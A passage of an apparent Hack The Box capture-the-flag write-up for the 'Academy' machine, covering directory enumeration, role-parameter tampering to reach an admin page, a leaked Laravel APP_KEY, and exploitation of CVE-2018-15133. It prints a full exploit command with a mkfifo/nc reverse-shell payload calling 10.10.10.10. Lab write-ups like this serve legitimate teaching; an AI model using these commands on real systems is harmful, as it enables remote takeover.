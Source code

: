 ```bash
/images (Status: 301)
/login.php (Status: 200)
/home.php (Status: 200)
/register.php (Status: 200)
/admin.php (Status: 200)
/config.php (Status: 200)
Progress: 48339 / 220561 (21.92%)in.php (Status: 200)

```

### admin.php

Accessing `admin.php` noticed that this pace looks very similar to the previous one, but our dummy credentials did not work there. So, remembering from the parameter we saw in the registration form (**roleid**), I decided to create another account but, in this case, tampering the data sent in the request, replacing 0 by 1 for the mentioned identifier. With this new account, which roleid = **1**, I was able to login to the restricted area and the page below was displayed:

![image-20210217131705459](https://i.imgur.com/s54Fy4z.png){: .align-center}

Besides not existing any information hidden in the source code of this page, what called attention was the host **dev-staging-01.academy.htb** which might also be running in this box.

After adding it to the hosts file under the same IP, the page below was shown, which is an error handler framework for PHP, which allows developers to debug code in their code, but in this case was open and leaking lots of information such as credentials and environment variables.

![image-20210217132525919](https://i.imgur.com/EdXyUeb.png){: .align-center}

What most called attention in the information leaked was the MySQL credentials and Laravel App_key, which might lead us to an initial foothold in this box.

## Initial Foothold

As we don't have MySQL 3306/TCP open in this box, based on the initial nmap scan, searching a little about what could be done by using the Laravel App_key I came across the [CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133) which can lead to RCE through an unserialized call in some affected Laravel versions. If we were lucky this might work for this box :smiley:.

Doing some search, I have found [this repository](https://github.com/aljavier/exploit_laravel_cve-2018-15133) which implements this exploit in a simple manner, which was the one I have used to get an initial foothold in the box.

```bash
python3 ./pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f"
```

## User flag

After upgrading the reverse shell, first thing to check was the content of the previously enumerated file **config.php**, listed below:
